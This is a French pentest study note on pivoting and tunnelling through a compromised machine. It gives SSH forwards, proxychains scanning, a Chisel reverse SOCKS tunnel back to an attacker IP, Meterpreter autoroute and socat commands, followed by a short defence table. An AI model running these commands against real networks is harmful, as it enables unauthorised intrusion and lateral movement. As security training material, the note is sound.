

# 🌉 Pivoting & Tunneling

> [!info] **En 1 phrase**
> Pivoting = passer d'une machine compromise (publique) aux machines internes que **seule** cette
> machine voit, en **routant notre trafic à travers elle**.

---

## 🎯 Concept



> [!info] 💡 **Les 2 familles**
> - **Tunnel simple** : forward un port précis (`127.0.0.1:8080 → interne:80`).
> - **SOCKS proxy** : toute la navigation/scans passent par la machine compromise.

---

## 🛠️ Exploitation

```bash
# SSH - local forward (port précis)
ssh -L 8080:192.168.1.20:80 user@192.168.1.10
# SSH - dynamic (SOCKS)
ssh -D 1080 user@192.168.1.10
proxychains nmap -sT -Pn 10.0.0.5

# Chisel (quand pas de SSH)
# Kali :
./chisel server --port 8080 --reverse
# Cible :
./chisel client 10.10.14.5:8080 R:socks
# → SOCKS5 sur 127.0.0.1:1080 du serveur

# Meterpreter routing
run autoroute -s 10.0.0.0/24
run autoroute -p
# msfconsole :
route add 10.0.0.0/24 1
auxiliary/scanner/portscan/tcp RHOSTS=10.0.0.5

# Socat (forward natif)
socat TCP-LISTEN:4444,fork TCP:192.168.1.20:3389
```

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Segmentation réseau** | Séparer les zones, interdire le latéral |
| **Monitoring** | Trafic vers des IP internes inattendues, SOCKS signatures |
| **Firewall interne** | Micro-segmentation (zero trust) |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Proxychains = TCP only**
> `nmap -sT -Pn` obligatoire (pas de SYN, pas d'UDP/ICMP à travers SOCKS).

> [!warning] ⚠️ **Piège** : la machine compromise doit avoir **2 interfaces** (publique + interne) pour pivoter. Vérifie `ip a` / `netstat -rn` / `ipconfig` avant.

---

## 🔗 Liens

- [[Reverse Shells|🕸️ Reverse Shells]]
- [[SSRF|🌐 SSRF]] (une entrée vers l'interne côté web)
- → Note complète : [[04 - Exploitation Réseau|💥 Exploitation Réseau]]
